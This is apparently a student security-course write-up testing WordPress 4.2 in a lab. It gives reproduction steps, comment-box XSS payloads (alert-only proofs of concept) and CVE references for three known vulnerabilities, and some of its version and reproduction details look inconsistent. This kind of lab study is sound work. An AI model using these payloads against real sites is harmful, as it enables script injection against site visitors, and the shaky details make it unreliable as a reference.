 # CyberSecurity
Week 7 Assignment - WordPress vs. Kali

Version of WordPress Tested: 4.2

# Vulnerability 1 - Legacy Theme Preview Cross-Site Scripting (XSS)
Steps to reproduce:
1. Go to any post.
2. Paste the following as a comment:
```
<a href='/wp-admin/' title="" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(1)//'>Test</a>
```
3. Hover over the posted comment.
4. Alert(1) will pop up.

Type of Attack: XSS

Versions: 

[!] Title: WordPress <= 4.2.3 - Legacy Theme Preview Cross-Site Scripting (XSS)

[i] Fixed in: 4.2.4

Sources: 
1. Reference: https://wpvulndb.com/vulnerabilities/8133
2. Reference: https://core.trac.wordpress.org/changeset/33549
3. Reference: https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html
4. Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5734

GIF: https://i.imgur.com/AWc0xbA.gif

# Vulnerability 2 - Authenticated Cross-Site Scripting (XSS)
Steps to reproduce:
1. Go to any post.
2. Paste the following as a comment:
```
http://www.example.com/wp-admin/customize.php?theme=<svg onload=alert(1)>
```
3. Alert(1) will pop up.

Type of Attack: XSS

Versions: 

[!] Title: WordPress  3.7-4.4 - Authenticated Cross-Site Scripting (XSS)

[i] Fixed in: 4.2.6

Sources: 
1. Reference: https://wpvulndb.com/vulnerabilities/8358
2. Reference: https://wordpress.org/news/2016/01/wordpress-4-4-1-security-and-maintenance-release/
3. Reference: https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87
4. Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1564

GIF: https://i.imgur.com/ZmwMJau.gif


# Vulnerability 3 - Pupload Same Origin Method Execution (SOME)
Steps to reproduce:
1. Go to any post.
2. Paste the following as a comment:
```
<button onclick="fire()">Click</button>
<script>
function fire() {
 open('javascript:alert(1)');
}
</script>
```
3. Click on the button.
4. Alert(1) will pop up.

Type of Attack: XSS

Versions: 

[!] Title: WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME)

[i] Fixed in: 4.2.8

Sources: 
1. Reference: https://wpvulndb.com/vulnerabilities/8489
2. Reference: https://wordpress.org/news/2016/05/wordpress-4-5-2/
3. Reference: https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8
4. Reference: https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e
5. Reference: http://avlidienbrunn.com/wp_some_loader.php
6. Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566

GIF: https://i.imgur.com/eS4AppI.gif

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work:
Some vulnerabilities would work once in a while even when using the same exact code. 
Recording with LiceCap wasn't in focus.

## License

    Copyright [2017] [Sunny Liang]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
